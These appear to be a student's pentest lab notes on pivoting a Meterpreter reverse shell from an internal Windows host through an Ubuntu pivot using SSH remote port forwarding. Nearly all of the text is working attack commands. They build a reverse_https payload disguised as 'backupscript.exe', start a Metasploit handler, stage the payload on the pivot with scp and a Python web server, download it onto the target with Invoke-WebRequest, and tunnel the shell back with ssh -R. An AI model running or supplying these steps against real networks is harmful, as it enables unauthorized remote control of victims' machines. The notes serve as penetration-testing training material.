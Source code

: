 
We want to create a reverse shell on the Windows host, but it cannot route traffic to our attack host since it is only on the local network 172...

We must route traffic through the pivot host.
- Create listener on attack host
- Create and copy a payload for the pivot host
- Start webserver on pivot host
- Download payload to the Windows host via webserver on pivot host
- Use ssh -R to forward msfconsole traffic from ubuntu server to listener on attack host

**Creating a Windows Payload with msfvenom
```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

**Configuring & Starting the multi/handler (msfconsole)
```shell-session
use exploit/multi/handler
```
```shell-session
set payload windows/x64/meterpreter/reverse_https
```
```shell-session
set lhost 0.0.0.0
```
```shell-session
set lport 8000
```
```shell-session
run
```
- Copy this payload to the ubuntu server using scp

**Transferring Payload to Pivot Host
```shell-session
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```
- Then, create a python3 HTTP server on the Ubuntu server in the same directory where we copied our payload

**Starting Python3 Webserver on Pivot Host
```shell-session
python3 -m http.server 8123
```
- Now, download payload on Windows target using Invoke-WebRequest or a web browser

**Downloading Payload on the Windows Target
```powershell-session
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

**Using SSH -R (on attack host)
```shell-session
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```
- -R command asks the Ubuntu server to listen on targetIPaddress:8080 and forward all incoming connections on port 8080 to our msfconsole listener on 0.0.0.0:8000 of our attack host

![[Pasted image 20250624145759.png]]

